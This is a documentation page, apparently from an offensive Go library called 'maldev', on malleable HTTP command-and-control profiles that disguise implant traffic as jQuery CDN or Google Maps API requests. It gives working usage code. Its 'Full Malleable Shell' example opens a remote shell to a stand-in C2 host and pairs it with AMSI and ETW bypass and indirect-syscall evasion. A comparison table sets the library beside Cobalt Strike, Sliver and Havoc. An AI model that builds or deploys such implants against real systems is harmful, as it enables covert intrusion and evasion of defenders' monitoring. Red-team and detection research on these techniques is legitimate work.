


# Malleable HTTP Profiles

[<- Back to C2 Overview](README.md)

**MITRE ATT&CK:** [T1071.001 - Application Layer Protocol: Web Protocols](https://attack.mitre.org/techniques/T1071/001/)
**D3FEND:** [D3-NTA - Network Traffic Analysis](https://d3fend.mitre.org/technique/d3f:NetworkTrafficAnalysis/)

---

## For Beginners

Even with TLS encryption, network monitors can see the URL patterns, HTTP headers, and request timing of your C2 traffic. If your malware makes POST requests to `/api/data` every 5 seconds, that is easy to spot.

**Your spy communications look like normal jQuery CDN requests.** The malleable profile transforms C2 data into HTTP requests that mimic legitimate web traffic -- GET requests to `/jquery-3.7.1.min.js`, with proper `Referer` and `Accept` headers, using a real Chrome User-Agent. A network analyst sees what looks like a website loading jQuery from a CDN.

---

## How It Works

### Data Flow



### Profile Structure



### URI Rotation

The transport cycles through URIs to avoid repeated requests to the same path:

```text
Request 1: GET /jquery-3.7.1.min.js
Request 2: GET /jquery-3.7.1.slim.min.js
Request 3: GET /jquery-3.7.1.min.js      (wraps around)
```

---

## Usage

### JQueryCDN Profile

```go
import (
    "time"
    "github.com/oioio-space/maldev/c2/transport"
)

profile := transport.JQueryCDN()
// GET URIs:  /jquery-3.7.1.min.js, /jquery-3.7.1.slim.min.js
// POST URIs: /jquery-3.7.1.min.map, /jquery-ui.min.js
// Headers:   Accept: text/javascript, Referer: https://code.jquery.com/
// Encoding:  base64

trans := transport.NewMalleable("https://c2.example.com", 10*time.Second, profile)
```

### GoogleAPI Profile

```go
profile := transport.GoogleAPI()
// GET URIs:  /maps/api/js, /maps/api/geocode/json
// POST URIs: /maps/api/directions/json, /maps/api/place/findplacefromtext/json
// Headers:   Accept: application/json, X-Goog-Api-Key: AIzaSyDummy...
// Encoding:  base64

trans := transport.NewMalleable("https://c2.example.com", 10*time.Second, profile)
```

### Malleable + uTLS (Double Disguise)

```go
import (
    "crypto/tls"
    "net/http"
    "time"

    "github.com/oioio-space/maldev/c2/transport"
)

// Combine malleable HTTP with JA3-spoofed TLS
tlsTransport := &http.Transport{
    TLSClientConfig: &tls.Config{InsecureSkipVerify: true},
}

profile := transport.JQueryCDN()
trans := transport.NewMalleable("https://c2.example.com", 10*time.Second, profile,
    transport.WithTLSConfig(tlsTransport),
)
```

### Custom Profile

```go
profile := &transport.Profile{
    GetURIs:  []string{"/api/v1/status", "/api/v1/health"},
    PostURIs: []string{"/api/v1/telemetry", "/api/v1/events"},
    Headers: map[string]string{
        "Accept":        "application/json",
        "X-Api-Version": "2.1",
        "Authorization": "Bearer eyJ0eXAi...",
    },
    UserAgent:   "MyApp/2.1.0 (Monitoring Agent)",
    DataEncoder: func(data []byte) []byte { /* custom encoding */ return data },
    DataDecoder: func(data []byte) []byte { /* custom decoding */ return data },
}

trans := transport.NewMalleable("https://api.example.com", 10*time.Second, profile)
```

---

## Combined Example: Full Malleable Shell

```go
package main

import (
    "context"
    "time"

    "github.com/oioio-space/maldev/c2/shell"
    "github.com/oioio-space/maldev/c2/transport"
    "github.com/oioio-space/maldev/evasion"
    "github.com/oioio-space/maldev/evasion/amsi"
    "github.com/oioio-space/maldev/evasion/etw"
    wsyscall "github.com/oioio-space/maldev/win/syscall"
)

func main() {
    caller := wsyscall.New(wsyscall.MethodIndirect,
        wsyscall.Chain(wsyscall.NewTartarus(), wsyscall.NewHalosGate()),
    )
    defer caller.Close()

    // jQuery CDN profile -- traffic looks like a website loading jQuery
    profile := transport.JQueryCDN()
    trans := transport.NewMalleable("https://cdn-c2.example.com", 10*time.Second, profile)

    sh := shell.New(trans, &shell.Config{
        MaxRetries:    0,
        ReconnectWait: 5 * time.Second,
        MaxBackoff:    5 * time.Minute,
        JitterFactor:  0.3,
        Evasion: []evasion.Technique{
            amsi.Technique(),
            etw.Technique(),
        },
        Caller: caller,
    })

    sh.Start(context.Background())
}
```

---

## Advantages & Limitations

### Advantages

- **Blends with legitimate traffic**: URIs, headers, and User-Agent match real web services
- **URI rotation**: Cycles through multiple URIs to reduce pattern detection
- **Pluggable encoding**: Custom `DataEncoder`/`DataDecoder` functions for any encoding scheme
- **Built-in profiles**: JQueryCDN and GoogleAPI ready to use out of the box
- **Composable with TLS**: `WithTLSConfig` option allows custom TLS configuration

### Limitations

- **HTTP-only transport**: No raw TCP -- all data flows through HTTP request/response cycles
- **Latency**: HTTP overhead per Read/Write compared to raw TCP
- **No WebSocket**: Long-polling via GET, not persistent connections
- **Server cooperation**: C2 server must understand the same profile (URI patterns, encoding)
- **No request jitter**: Timing between requests is not randomized at the transport level

---

## Compared to Other Implementations

| Feature | maldev | Cobalt Strike | Sliver | Havoc |
|---------|--------|---------------|--------|-------|
| Malleable profiles | Yes | Yes (full DSL) | HTTP C2 | Yes |
| Built-in profiles | JQueryCDN, GoogleAPI | Many built-in | Internal | Internal |
| Custom profiles | Yes (struct) | Yes (profile DSL) | Config-based | Config-based |
| URI rotation | Yes | Yes | Yes | Yes |
| Data transformation | Encoder/Decoder funcs | Transforms DSL | Internal | Internal |
| JA3 integration | Via WithTLSConfig | Built-in | Via config | Via config |

---

## API Reference

### Profile

```go
type Profile struct {
    GetURIs     []string                // URI patterns for GET requests
    PostURIs    []string                // URI patterns for POST requests
    Headers     map[string]string       // Custom HTTP headers
    UserAgent   string                  // User-Agent header
    DataEncoder func([]byte) []byte     // Encode data before sending
    DataDecoder func([]byte) []byte     // Decode received data
}
```

### Built-in Profiles

```go
func JQueryCDN() *Profile   // Mimics jQuery CDN traffic
func GoogleAPI() *Profile   // Mimics Google Maps API traffic
```

### MalleableTransport

```go
func NewMalleable(address string, timeout time.Duration, profile *Profile, opts ...MalleableOption) *MalleableTransport
func WithTLSConfig(tlsTransport *http.Transport) MalleableOption
```
